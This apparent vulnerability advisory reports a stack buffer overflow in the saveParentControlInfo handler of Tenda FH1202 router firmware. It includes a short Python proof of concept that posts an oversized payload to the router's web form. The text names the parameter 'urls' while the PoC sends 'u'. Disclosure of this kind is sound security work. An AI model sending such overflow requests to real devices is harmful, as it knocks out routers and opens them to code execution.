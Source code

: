 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240319223326387](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223326387.png)

it reads in a user-provided parameter `urls`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240319223307458](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223307458.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240319223317455](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223317455.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"u": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240319223442316](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223442316.png)
